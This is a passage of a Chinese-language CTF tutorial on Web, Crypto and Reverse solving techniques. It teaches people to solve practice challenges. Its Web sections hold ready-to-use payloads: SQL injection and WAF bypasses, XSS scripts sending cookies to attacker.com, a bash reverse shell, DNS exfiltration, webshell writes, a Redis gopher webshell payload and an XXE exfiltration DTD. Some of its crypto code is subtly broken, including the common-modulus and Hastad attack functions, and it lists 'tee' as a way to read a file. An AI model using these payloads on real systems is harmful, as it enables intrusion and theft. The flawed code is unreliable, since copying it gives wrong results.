



## 二、CTF解题核心技巧

CTF（Capture The Flag）竞赛是网络安全领域最核心的实战训练形式。与理论学习不同，CTF要求选手在有限时间内将安全知识转化为攻击能力——快速识别漏洞类型、选择攻击路径、构造利用代码、最终获取Flag。本节系统梳理CTF四大方向（Web、Crypto、Reverse、Pwn）的核心解题技巧，建立从零到一的解题能力框架。高级技巧（反序列化、SSTI、堆利用、内核渗透等）详见[第八节·高级CTF解题技巧](08-八高级CTF解题技巧.md)。



### 2.1 CTF解题通用方法论

在深入各方向技巧之前，先建立一套通用的解题方法论。无论面对什么类型的题目，这套流程都能帮你快速定位思路。

#### 赛前准备

**环境搭建清单：**

| 工具类别 | 推荐工具 | 安装方式 | 用途 |
|---------|---------|---------|------|
| Web测试 | Burp Suite、sqlmap、dirsearch | apt/brew/官网下载 | HTTP抓包、SQL注入、目录扫描 |
| 编解码 | CyberChef（浏览器）、Python | 浏览器打开/pip install | 万能编解码转换 |
| 逆向分析 | IDA Free、Ghidra | 官网下载 | 反汇编、反编译 |
| 动态调试 | GDB+pwndbg、x64dbg | apt/choco | 断点调试、内存查看 |
| Pwn框架 | pwntools、ROPgadget | pip install | 脚本化漏洞利用 |
| 密码分析 | SageMath、RsaCtfTool | pip install/git clone | 数学计算、RSA攻击 |
| 文件分析 | binwalk、exiftool、stegsolve | apt/brew | 隐写检测、文件分离 |
| 流量分析 | Wireshark、tshark | apt/brew | 网络数据包分析 |

```bash
# 一键安装核心工具（Debian/Ubuntu）
sudo apt update && sudo apt install -y \
  burp-suite sqlmap nmap dirsearch \
  ghidra gdb gdb-pwndbg \
  binwalk exiftool steghide \
  wireshark tshark \
  john hashcat \
  python3-pip

pip3 install pwntools ropper gmpy2

# CyberChef 本地部署
git clone https://github.com/gchq/CyberChef.git
cd CyberChef && python3 -m http.server 8080
# 浏览器访问 http://localhost:8080
```

#### 标准解题流程



**第一步：审题（30秒内完成）**

拿到题目先看三件事：
- **题目描述**：是否有提示（"这是一道关于加密的题"、"服务器存在注入"等）
- **附件内容**：下载附件后立即用 `file`、`strings`、`xxd` 命令快速分析
- **Flag格式**：识别是 `flag{xxx}`、`CTF{xxx}`、`HCTF{xxx}` 还是自定义格式

**第二步：信息收集（1-3分钟）**

```bash
# 通用信息收集脚本
file challenge          # 文件类型识别
strings challenge | head -50  # 提取可打印字符串
strings -n 8 challenge  # 提取长度>=8的字符串（通常含Flag片段）
xxd challenge | head -20  # 查看文件头（判断是否伪造扩展名）

# 如果是Web题目
curl -I http://target    # 查看响应头（Server、X-Powered-By等）
curl -s http://target | head -20  # 快速查看页面内容
```

**第三步：常见Flag直接获取技巧**

很多入门题其实不需要复杂攻击，直接检查就能拿到Flag：

```bash
# 1. 查看网页源代码中的注释
curl -s http://target | grep -i "flag\|<!--\|hidden"

# 2. 查看robots.txt
curl http://target/robots.txt

# 3. 查看响应头
curl -v http://target 2>&1 | grep -i flag

# 4. Cookie中可能藏Flag
curl -c - http://target

# 5. 检查常见的隐藏路径
curl http://target/flag
curl http://target/flag.txt
curl http://target/.flag
curl http://target/flag.php
```

#### 时间管理策略

CTF比赛通常持续24-48小时，合理分配时间至关重要：

- **前30分钟**：浏览所有题目，标记"看起来简单"和"看起来困难"的题
- **前2小时**：集中攻克简单题（分值低但容易拿分）
- **中间时段**：深入中等难度题，同时关注队友的求助
- **最后4小时**：检查已得Flag是否正确，尝试最难的题
- **黄金法则**：一道题卡住超过30分钟就先跳过，回来时往往会有新思路

### 2.2 Web方向核心技巧

Web安全是CTF中题量最大、变化最多的方向。掌握以下核心漏洞类型，可以覆盖80%以上的Web题目。

#### 2.2.1 SQL注入深度指南

SQL注入是CTF Web方向的"必考题"，也是渗透测试中最常见的漏洞之一。

**注入类型分类：**

| 注入类型 | 特征 | 判断方法 | 难度 |
|---------|------|---------|------|
| Union注入 | 页面直接回显查询结果 | 输入`' UNION SELECT 1,2,3--`观察页面变化 | ★☆☆ |
| 布尔盲注 | 页面只有真假两种状态 | 输入`' AND 1=1--`和`' AND 1=2--`对比 | ★★☆ |
| 时间盲注 | 页面无任何差异 | 输入`' AND SLEEP(5)--`观察响应时间 | ★★★ |
| 报错注入 | 页面显示数据库错误信息 | 输入`' AND (SELECT 1 FROM(SELECT COUNT(*),CONCAT((SELECT database()),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)--` | ★★☆ |
| 堆叠注入 | 支持多条SQL语句执行 | 输入`; SELECT 1;--`观察响应 | ★★☆ |

**手工注入完整流程（Union注入）：**

```sql
-- 第一步：判断注入点
' OR 1=1--
' OR '1'='1
" OR 1=1--
1' OR 1=1--
1' OR '1'='1

-- 第二步：确定列数（使用ORDER BY逐步递增）
' ORDER BY 1--    -- 正常
' ORDER BY 2--    -- 正常
' ORDER BY 3--    -- 报错（说明有2列）

-- 第三步：确定回显位置
' UNION SELECT 1,2,3--
-- 页面上显示的数字就是可以替换为查询语句的位置

-- 第四步：获取数据库信息
' UNION SELECT 1,database(),version()--
-- database() 返回当前数据库名
-- version() 返回数据库版本（如 5.7.34-0ubuntu0.18.04.1）
-- @@datadir 返回数据目录路径

-- 第五步：枚举所有数据库
' UNION SELECT 1,GROUP_CONCAT(schema_name),3 FROM information_schema.schemata--
-- 结果：information_schema,ctf_web,mysql,performance_schema

-- 第六步：枚举目标数据库的所有表
' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables WHERE table_schema='ctf_web'--
-- 结果：users,articles,flag_table

-- 第七步：枚举目标表的所有列
' UNION SELECT 1,GROUP_CONCAT(column_name),3 FROM information_schema.columns WHERE table_name='flag_table'--
-- 结果：id,flag_content,create_time

-- 第八步：读取Flag
' UNION SELECT 1,flag_content,3 FROM ctf_web.flag_table--
```

**布尔盲注自动化脚本：**

```python
import requests

def blind_sqli(url, vulnerable_field):
    """布尔盲注逐字符提取数据"""
    result = ""
    for pos in range(1, 50):  # 最多提取50个字符
        low, high = 32, 127  # ASCII可打印字符范围
        while low < high:
            mid = (low + high) // 2
            # 构造注入payload：判断第pos个字符的ASCII值是否大于mid
            payload = f"' AND ASCII(SUBSTRING(({vulnerable_field}),{pos},1))>{mid}--"
            response = requests.get(url, params={"id": payload})
            if "成功" in response.text:  # 根据实际页面判断条件为真
                low = mid + 1
            else:
                high = mid
        result += chr(low)
        print(f"[+] Found: {result}")
    return result

# 使用示例
# blind_sqli("http://target/page.php", "SELECT flag FROM flag_table")
```

**时间盲注自动化脚本：**

```python
import requests
import time

def time_sqli(url):
    """时间盲注：通过响应时间差逐字符提取数据"""
    result = ""
    charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}-_"
    
    for pos in range(1, 60):
        for char in charset:
            payload = f"' AND IF(SUBSTRING(database(),{pos},1)='{char}',SLEEP(3),0)--"
            start = time.time()
            requests.get(url, params={"id": payload})
            elapsed = time.time() - start
            
            if elapsed > 2.5:  # 如果响应时间超过2.5秒，说明条件为真
                result += char
                print(f"[+] Position {pos}: {result}")
                break
        else:
            print(f"[-] No match at position {pos}")
            break
    return result
```

**WAF绕过核心技巧：**

当目标部署了Web应用防火墙（WAF）时，需要使用绕过技术：

```sql
-- 1. 大小写混合绕过
' UnIoN SeLeCt 1,2,3--

-- 2. 双写绕过（某些WAF只替换一次）
' UNIunionON SELselectECT 1,2,3--

-- 3. 内联注释绕过
' /*!UNION*/ /*!SELECT*/ 1,2,3--
' /*!50000UNION*/ /*!50000SELECT*/ 1,2,3--

-- 4. 空格替换绕过
'/**/UNION/**/SELECT/**/1,2,3--
%09UNION%09SELECT%091,2,3--    -- Tab符
%0aUNION%0aSELECT%0a1,2,3--    -- 换行符

-- 5. 等号替换绕过
' UNION SELECT 1,2,3 WHERE 1 LIKE 1--
' UNION SELECT 1,2,3 WHERE 1 BETWEEN 0 AND 2--

-- 6. 引号绕过
0x666C61675F7461626C65    -- 十六进制表示 'flag_table'

-- 7. http参数污染
?id=1' UNION SELECT 1,2,3--&id=1
```

**sqlmap自动化注入：**

```bash
# 基本检测
sqlmap -u "http://target/page.php?id=1" --batch

# 指定数据库和表
sqlmap -u "http://target/page.php?id=1" -D ctf_web -T flag_table --dump

# POST请求注入
sqlmap -u "http://target/login.php" --data="user=admin&pass=123" --batch

# 绕过WAF（使用随机UA和延时）
sqlmap -u "http://target/page.php?id=1" --random-agent --delay=1 --tamper=space2comment

# 常用tamper脚本
--tamper=space2comment       # 空格→注释符
--tamper=space2plus          # 空格→+
--tamper=charencode          # 字符URL编码
--tamper=bluecoat            # 蓝帽WAF绕过
```

#### 2.2.2 XSS攻击全解

XSS（跨站脚本攻击）分为三种类型，CTF中各有侧重：

| 类型 | 存储位置 | 触发方式 | CTF常见场景 |
|------|---------|---------|------------|
| 反射型 | URL参数 | 点击恶意链接 | 题目要求让Bot访问你的URL |
| 存储型 | 数据库 | 浏览页面自动触发 | 留言区、评论区注入 |
| DOM型 | 前端JS处理 | 特殊构造的页面 | `document.location`、`innerHTML` |

**XSS Payload完整模板库：**

```html
<!-- ========== 基础弹窗验证 ========== -->
<script>alert(1)</script>
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>

<!-- ========== 事件触发（绕过script标签过滤） ========== -->

<svg onload=alert(1)>
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<marquee onstart=alert(1)>
<details open ontoggle=alert(1)>
<video src=x onerror=alert(1)>
<audio src=x onerror=alert(1)>

<!-- ========== 绕过关键字过滤 ========== -->
<!-- 大小写绕过 -->
<ScRiPt>alert(1)</ScRiPt>

<!-- 双写绕过 -->
<scrscriptipt>alert(1)</scrscriptipt>

<!-- 编码绕过 -->
<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
<script>eval(atob('YWxlcnQoMSk='))</script>

<!-- 空格/换行绕过 -->
<script>alert(1)</script>
<script>alert(1)</script>
<script\t>alert(1)</script>

<!-- SVG标签绕过 -->
<svg><script>alert(1)</script></svg>

<!-- ========== Cookie窃取 ========== -->
<script>
new Image().src='http://attacker.com/steal?c='+document.cookie;
</script>

<!-- 用Beef框架（CTF常用） -->
<script src='http://attacker:3000/hook.js'></script>

<!-- ========== DOM型XSS ========== -->
<script>document.location='http://attacker.com/steal?c='+document.cookie</script>
<script>window.location='http://attacker.com/?cookie='+document.cookie</script>

<!-- 绕过document.domain限制 -->
<script>
fetch('http://attacker.com/steal?c='+document.cookie)
.then(r=>r.text())
</script>
```

**CTF XSS题目的常见解题流程：**

```bash
# 1. 部署接收服务器（最简单的用Python）
python3 -c "
from http.server import HTTPServer, BaseHTTPRequestHandler
import urllib.parse
class H(BaseHTTPRequestHandler):
    def do_GET(self):
        print('[+] Received:', self.path)
        self.send_response(200)
        self.end_headers()
    HTTPServer(('0.0.0.0', 8888), H).serve_forever()
"
# 或使用requestbin/interactsh等在线服务

# 2. 构造Payload让Bot访问
# 题目通常提供一个Bot访问URL的接口，如：
# http://target/report?url=http://attacker.com/xss

# 3. 提交的Payload需要URL编码
python3 -c "import urllib.parse; print(urllib.parse.quote('<script>new Image().src=\"http://attacker.com/\"+document.cookie</script>'))"
```

#### 2.2.3 文件上传绕过详解

文件上传是CTF中最常考的Web漏洞之一。题目通常要求上传Webshell获取服务器权限。

**绕过策略完整对照表：**

| 防御机制 | 绕过方法 | Payload示例 |
|---------|---------|------------|
| Content-Type检测 | 修改请求头 | `Content-Type: image/jpeg` |
| 文件扩展名黑名单 | 大小写/双写/特殊后缀 | `.PhP`、`.php5`、`.phtml`、`.php.jpg` |
| 文件头检测 | 添加合法文件头 | 在shell前添加 `GIF89a` 或 `PNG` 文件头 |
| .htaccess拦截 | 上传.user.ini或.htaccess | `.htaccess` 内容见下方 |
| 图片马检测 | 结合文件包含漏洞 | 图片马+LFI |
| 二次渲染 | 找到渲染后的空白区域 | 在GIF/JPG的稳定区域嵌入shell |

**.htaccess上传利用（Apache环境）：**

```apache
# 方法一：让.jpg文件被当作PHP执行
AddType application/x-httpd-php .jpg

# 方法二：让所有文件被当作PHP执行
SetHandler application/x-httpd-php
```

**.user.ini上传利用（PHP CGI环境）：**

```ini
# 让当前目录下所有文件包含shell.jpg
auto_prepend_file=shell.jpg
```

**图片马制作方法：**

```bash
# 方法一：直接合并（最简单）
copy /b normal.jpg + shell.php shell_image.jpg    # Windows
cat normal.jpg shell.php > shell_image.jpg         # Linux

# 方法二：在EXIF信息中注入
exiftool -Comment='<?php eval($_POST["cmd"]); ?>' image.jpg
cp image.jpg shell.php.jpg

# 方法三：使用exiftool写入PHP代码
python3 -c "
import struct
# 在JPG的APP1段中插入PHP代码
payload = b'<?php eval(\$_POST[\"cmd\"]); ?>'
# ... 具体实现需要理解JPG文件格式
"

# 验证图片马是否有效
# 需要配合文件包含漏洞（LFI）使用：
# http://target/vuln.php?file=shell_image.jpg
```

#### 2.2.4 命令注入（Command Injection）

命令注入允许攻击者在服务器上执行任意系统命令，是CTF中获取shell的直接途径。

**注入点识别：**

```bash
# 常见的命令注入点特征
ping 127.0.0.1        # 网络工具 → 可能拼接了ping命令
lookup example.com    # DNS查询 → 可能拼接了nslookup
date "+%Y-%m-%d"      # 日期格式化 → 可能拼接了date命令
convert input.jpg output.png  # 图像处理 → 可能拼接了ImageMagick命令
```

**核心Payload：**

```bash
# 分隔符注入
; cat /flag          # 直接拼接（最常用）
| cat /flag          # 管道符
|| cat /flag         # 逻辑或（前面命令失败时执行）
& cat /flag          # 后台执行
&& cat /flag         # 逻辑与（前面命令成功时执行）
$(cat /flag)         # 命令替换
`cat /flag`          # 反引号命令替换
{cat,/flag}          # 花括号展开（Bash）

# 绕过空格过滤
cat${IFS}/flag       # IFS是内部字段分隔符
cat$IFS$9/flag       # $9在某些Shell中为空
{cat,/flag}          # 花括号不需要空格
cat</flag            # 重定向输入
cat%09/flag          # Tab字符
X=$'cat\x20/flag'&&$X  # 十六进制编码空格

# 绕过关键字过滤
c\at /flag           # 反斜杠插入
c'a't /flag          # 引号插入
c${x}at /flag        # 空变量
ca''t /flag          # 空引号

# 绕过cat被过滤
tac /flag            # 反向读取每一行
nl /flag             # 带行号显示
head /flag           # 读取前几行
tail /flag           # 读取后几行
less /flag           # 分页查看
more /flag           # 分页查看
sort /flag           # 排序显示
uniq /flag           # 去重显示
rev /flag            # 反向显示每个字符
od -c /flag          # 字符转储
xxd /flag            # 十六进制转储
base64 /flag         # Base64编码输出
strings /flag        # 提取可打印字符
grep . /flag         # 正则匹配所有字符
paste /flag          # 粘贴显示
fmt /flag            # 格式化显示
fold /flag           # 折行显示
sed 'p' /flag        # 打印每一行
awk '{print}' /flag  # 打印每一行
tee /flag            # 输出并保存
tr -d '\n' < /flag   # 删除换行符后显示

# 绕过/被过滤（路径问题）
cat //flag           # 双斜杠等同于单斜杠
cat ./flag           # 相对路径
cat ~/flag           # 家目录

# 无回显时的外带数据
# 方法一：写入Web目录
echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
# 然后访问 http://target/shell.php?cmd=cat+/flag

# 方法二：DNS外带
cat /flag | xargs -I{} nslookup {}.attacker.com

# 方法三：反弹Shell
bash -i >& /dev/tcp/attacker.com/4444 0>&1
```

#### 2.2.5 SSRF攻击（服务端请求伪造）

SSRF允许攻击者让服务器向内网发起请求，常用于读取内网资源、访问云元数据等。

**核心利用点：**

```bash
# 1. 读取本地文件
file:///etc/passwd
file:///flag

# 2. 访问云元数据（AWS/GCP/Azure）
http://169.254.169.254/latest/meta-data/  # AWS
http://metadata.google.internal/            # GCP
http://169.254.169.254/metadata/instance?api-version=2021-02-01  # Azure

# 3. 扫描内网服务
http://127.0.0.1:8080/
http://10.0.0.1:3306/
http://localhost:6379/  # Redis

# 4. Redis未授权访问写Webshell
gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$28%0d%0a%0a%0a%3C?php%20eval(%24_POST%5B1%5D);?%3E%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$13%0d%0a/var/www/html%0d%0a*1%0d%0a$4%0d%0asave%0d%0a

# 5. 绕过协议限制
dict://127.0.0.1:6379/info    # Redis信息
gopher://127.0.0.1:6379/_...  # Gopher协议
file:///etc/passwd             # 文件协议
```

**SSRF过滤绕过：**

```bash
# 127.0.0.1的替代写法
http://0x7f.0x00.0x00.0x01/
http://0177.0.0.1/
http://127.1/
http://0/  # 0会被解析为127.0.0.1
http://localhost/
http://[::1]/  # IPv6回环地址
http://127.0.0.1.nip.io/  # DNS重绑定

# 协议绕过
http://127.0.0.1/../../../etc/passwd  # 目录遍历
http://127.0.0.1%252f  # 双重URL编码
http://127.0.0.1%00@evil.com  # Null字节（旧版PHP）
```

#### 2.2.6 XXE注入（XML外部实体）

XXE允许通过恶意XML文档读取服务器文件或发起SSRF攻击。

**基础XXE Payload：**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

<!-- 读取Flag -->
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag">
]>
<root>&xxe;</root>

<!-- Blind XXE（无回显时外带数据） -->
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
```

**Blind XXE外带数据DTD：**

```xml
<!-- evil.dtd（攻击者服务器上） -->
<!ENTITY % data SYSTEM "file:///flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker.com/?d=%data;'>">
%param1;
```

#### 2.2.7 认证与权限绕过

CTF中常见的认证绕过场景：

```bash
# 1. 弱口令爆破
# 常见用户名：admin, root, test, guest
# 常见密码：admin, 123456, password, root, toor

# 使用hydra爆破
hydra -l admin -P /usr/share/wordlists/rockyou.txt target http-post-form "/login:user=^USER^&pass=^PASS^:F=incorrect"

# 2. JWT Token伪造
# 如果JWT的签名算法被设为none
# 修改header: {"alg":"none","typ":"JWT"}
# 伪造payload: {"user":"admin","exp":9999999999}
# 注意：去掉签名部分的最后一个点号

# 3. Cookie伪造
# 常见伪造项：
# - role=admin
# - user=admin
# - logged_in=true
# - is_admin=1
# 用Burp修改Cookie后重放请求

# 4. 目录遍历读取敏感文件
../../../../etc/passwd
....//....//....//....//etc/passwd  # 双写绕过
%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd  # URL编码
```

### 2.3 Crypto方向核心技巧

Crypto方向考察对密码学算法的理解和攻击能力。关键在于快速识别加密算法类型，然后选择对应的攻击方法。

#### 2.3.1 编码识别与解码

CTF中大量"密码"其实只是编码而非加密，第一步永远是尝试解码：

| 编码特征 | 编码类型 | 解码方法 |
|---------|---------|---------|
| 只含A-Z、a-z、0-9、+/= | Base64 | `base64 -d` 或 CyberChef |
| 只含0-9和A-F | Hex | `xxd -r -p` |
| 以`0x`开头的十六进制 | Hex | Python `bytes.fromhex()` |
| 只含0和1 | Binary | 每8位转一个字符 |
| 以`\u`开头 | Unicode | Python `codecs.decode()` |
| 以`%`开头 | URL编码 | `urllib.parse.unquote()` |
| 以`&#`开头 | HTML实体 | HTML解码 |
| 以`0b`开头 | 二进制 | 每8位转一个字符 |
| 看起来像乱码 | 可能是多层编码 | 逐层尝试解码 |

**快速解码脚本：**

```python
import base64
import binascii
import codecs

def auto_decode(text):
    """自动识别并尝试解码"""
    decoders = [
        ("Base64", lambda x: base64.b64decode(x).decode('utf-8', errors='ignore')),
        ("Hex", lambda x: bytes.fromhex(x.replace(' ', '')).decode('utf-8', errors='ignore')),
        ("URL", lambda x: __import__('urllib.parse').unquote(x)),
        ("Binary", lambda x: ''.join(chr(int(x[i:i+8], 2)) for i in range(0, len(x), 8))),
        ("Octal", lambda x: ''.join(chr(int(o, 8)) for o in x.split('\\') if o)),
        ("ROT13", lambda x: codecs.decode(x, 'rot_13')),
        ("Base32", lambda x: base64.b32decode(x).decode('utf-8', errors='ignore')),
    ]
    
    results = []
    for name, decoder in decoders:
        try:
            result = decoder(text)
            if result and result != text and all(32 <= ord(c) < 127 for c in result):
                results.append((name, result))
        except:
            pass
    return results

# 使用
# encoded = "ZmxhZ3tiYXNlNjR9"
# for name, decoded in auto_decode(encoded):
#     print(f"[{name}] {decoded}")
```

#### 2.3.2 古典密码破解

古典密码在CTF入门题中频繁出现，核心是频率分析和模式匹配：

**凯撒密码（Caesar Cipher）：**

```python
def caesar_bruteforce(ciphertext):
    """凯撒密码暴力破解（尝试所有26种偏移）"""
    results = []
    for shift in range(26):
        plaintext = ""
        for char in ciphertext:
            if char.isalpha():
                base = ord('A') if char.isupper() else ord('a')
                plaintext += chr((ord(char) - base - shift) % 26 + base)
            else:
                plaintext += char
        results.append((shift, plaintext))
        print(f"ROT-{shift:2d}: {plaintext}")
    return results

# 或者使用工具
# echo "encrypted_text" | rot13           # ROT-13
# python3 -c "import codecs; print(codecs.decode('your_text', 'rot_13'))"
```

**栅栏密码（Rail Fence Cipher）：**

```python
def rail_fence_decrypt(ciphertext, rails):
    """栅栏密码解密"""
    n = len(ciphertext)
    # 创建空矩阵
    fence = [['\n' for _ in range(n)] for _ in range(rails)]
    
    # 标记栅栏位置
    direction = -1
    row, col = 0, 0
    for i in range(n):
        if row == 0 or row == rails - 1:
            direction = -direction
        fence[row][col] = '*'
        col += 1
        row += direction
    
    # 填入字符
    index = 0
    for i in range(rails):
        for j in range(n):
            if fence[i][j] == '*':
                fence[i][j] = ciphertext[index]
                index += 1
    
    # 读取结果
    result = ""
    row, col = 0, 0
    direction = -1
    for i in range(n):
        if row == 0 or row == rails - 1:
            direction = -direction
        result += fence[row][col]
        col += 1
        row += direction
    
    return result

# 暴力破解（尝试所有可能的栏数）
for rails in range(2, 20):
    result = rail_fence_decrypt("密文", rails)
    print(f"Rails={rails}: {result}")
```

**维吉尼亚密码（Vigenère Cipher）：**

```python
def vigenere_known_key_length(ciphertext, key_length):
    """已知密钥长度时，使用频率分析破解"""
    from collections import Counter
    
    # 将密文按密钥长度分组
    groups = ['' for _ in range(key_length)]
    for i, char in enumerate(ciphertext):
        if char.isalpha():
            groups[i % key_length] += char.upper()
    
    key = ""
    for group in groups:
        # 统计字母频率
        freq = Counter(group)
        # 与英文字母频率对比，找到偏移量
        best_shift = 0
        best_score = 0
        english_freq = [8.2, 1.5, 2.8, 4.3, 12.7, 2.2, 2.0, 6.1, 7.0, 0.2,
                       0.8, 4.0, 2.4, 6.7, 7.5, 1.9, 0.1, 6.0, 6.3, 9.1,
                       2.8, 1.0, 2.4, 0.2, 2.0, 0.1]
        
        for shift in range(26):
            score = 0
            for i in range(26):
                shifted = (i + shift) % 26
                if freq.get(chr(i + ord('A')), 0) > 0:
                    score += freq[chr(i + ord('A'))] * english_freq[shifted]
            if score > best_score:
                best_score = score
                best_shift = shift
        
        key += chr(best_shift + ord('A'))
    
    return key
```

#### 2.3.3 RSA基础攻击

RSA是CTF Crypto方向的核心考点。掌握以下攻击方法可以解决大部分RSA题目：

**RSA核心参数：**

| 参数 | 含义 | 获取方式 |
|------|------|---------|
| n | 模数（两个大素数p和q的乘积） | 题目直接给出 |
| e | 公钥指数 | 题目直接给出（常见65537） |
| c | 密文 | 题目直接给出 |
| p, q | 两个大素数 | 需要从n分解 |
| d | 私钥指数 | 需要计算 |
| phi(n) | 欧拉函数 | (p-1)*(q-1) |

**攻击一：n可分解（小n或特殊n）**

```python
from Crypto.Util.number import long_to_bytes
import gmpy2

def rsa_factor_small_n(n, e, c):
    """当n较小时，直接分解n"""
    # 方法一：在线分解（factordb.com）
    # 方法二：yafu工具
    # 方法三：Python暴力分解
    
    for i in range(2, int(n**0.5) + 1):
        if n % i == 0:
            p, q = i, n // i
            break
    
    phi = (p - 1) * (q - 1)
    d = gmpy2.invert(e, phi)
    m = pow(c, d, n)
    return long_to_bytes(m).decode()

# 使用yafu工具分解大数
# yafu factor <n>
# 或使用在线数据库 http://factordb.com/
```

**攻击二：共模攻击（同n不同e加密同一明文）**

```python
from Crypto.Util.number import long_to_bytes
from math import gcd

def common_modulus_attack(n, e1, e2, c1, c2):
    """共模攻击：当同一n用不同e加密同一明文时"""
    if gcd(e1, e2) != 1:
        raise ValueError("e1和e2必须互素")
    
    from sympy import mod_inverse
    s1 = mod_inverse(e1, e2)
    s2 = (-e1 * s1) // e2  # 注意是整除
    
    # 利用扩展欧几里得算法
    m = (pow(c1, s1, n) * pow(c2, s2, n)) % n
    return long_to_bytes(m).decode()

# 示例
# n = 0xdeadbeef...
# e1, c1 = 17, 0x1234...  # e1加密的密文
# e2, c2 = 65537, 0x5678...  # e2加密的密文
# plaintext = common_modulus_attack(n, e1, e2, c1, c2)
```

**攻击三：小公钥指数攻击（e=3时广播攻击）**

```python
from Crypto.Util.number import long_to_bytes

def Hastad_broadcast_attack(moduli,密文s, e=3):
    """小公钥指数攻击：当e=3且同一明文用不同n加密多次时"""
    from sympy import crt
    
    N = 1
    for n in moduli:
        N *= n
    
    # 中国剩余定理
    result = crt(moduli, 密文s)[0]
    
    # 对结果开e次方根
    m = int(round(result ** (1.0/e)))
    
    # 验证
    for i, n in enumerate(moduli):
        assert pow(m, e, n) == 密文s[i], f"第{i}个验证失败"
    
    return long_to_bytes(m).decode()

# 示例：e=3，三个不同的n加密同一个明文
# moduli = [n1, n2, n3]
# ciphertexts = [c1, c2, c3]
# plaintext = Hastad_broadcast_attack(moduli, ciphertexts)
```

**攻击四：低加密指数广播攻击（e=3且只有一个密文）**

```python
def small_e_single(n, e, c):
    """e=3且只有一个密文时，尝试开立方根"""
    import gmpy2
    
    # 直接开立方根
    m, exact = gmpy2.iroot(c, e)
    if exact:
        return long_to_bytes(int(m)).decode()
    
    # 如果不是完美立方，尝试c + k*n
    for k in range(1, 10000):
        m, exact = gmpy2.iroot(c + k * n, e)
        if exact:
            return long_to_bytes(int(m)).decode()
    
    return None
```

#### 2.3.4 哈希攻击

```python
# 1. 在线查询（最快速）
# https://crackstation.net/
# https://hashes.com/en/decrypt/hash
# https://www.cmd5.com/

# 2. hashcat破解
hashcat -m 0 hash.txt rockyou.txt    # MD5
hashcat -m 100 hash.txt rockyou.txt  # SHA1
hashcat -m 1400 hash.txt rockyou.txt # SHA256

# 3. john破解
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt

# 4. Python暴力破解
import hashlib

def crack_hash(target_hash, wordlist, hash_type='md5'):
    with open(wordlist, 'r', encoding='utf-8', errors='ignore') as f:
        for word in f:
            word = word.strip()
            if getattr(hashlib, hash_type)(word.encode()).hexdigest() == target_hash:
                return word
    return None

# 5. Hash长度扩展攻击（MD5/SHA1）
# 当知道hash(secret+message)和message时，可以构造hash(secret+message+padding+append)
# 工具：hash_extender、HashPump
```

### 2.4 Reverse方向核心技巧

逆向工程要求从二进制程序中还原算法逻辑或找到隐藏的Flag。核心是"先宏观后微观"的分析方法。

#### 2.4.1 逆向分析标准流程



**第一步：文件分析**

```bash
# 判断文件类型
file challenge
# ELF 64-bit LSB executable, x86-64
# PE32+ executable (console) x86-64, for MS Windows

# 查看字符串（通常包含关键提示）
strings challenge | grep -i "flag\|correct\|wrong\|password\|key"
strings -n 10 challenge  # 提取较长的字符串

# 查看段信息
readelf -S challenge  # Linux ELF
objdump -h challenge

# 查看导入函数（判断程序行为）
# 静态链接的程序通常有更多函数
readelf -s challenge | grep "FUNC"
```

**第二步：判断是否有壳**

```bash
# 查看导入表（加壳程序导入函数很少）
readelf -s challenge | grep UND

# 使用detect-it-easy (DIE)工具
# 或使用Exeinfo PE（Windows）

# 常见壳类型
# UPX: 通常有 "UPX!" 标记
strings challenge | grep -i upx
# 如果是UPX壳：upx -d challenge -o challenge_unpacked
```

**第三步：IDA Pro / Ghidra分析关键技巧**

```python
# 在IDA中快速定位关键函数
# 1. 搜索字符串引用：Shift+F12 → 找到"flag"/"correct"等字符串 → 双击 → X查看引用
# 2. 查看main函数：通常在Functions窗口中搜索main
# 3. 交叉引用（X）：查看哪些函数调用了当前函数
# 4. 查看伪代码：按F5（Hex-Rays插件）或使用Ghidra的Decompile

# 常见算法特征识别
# Base64表： "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
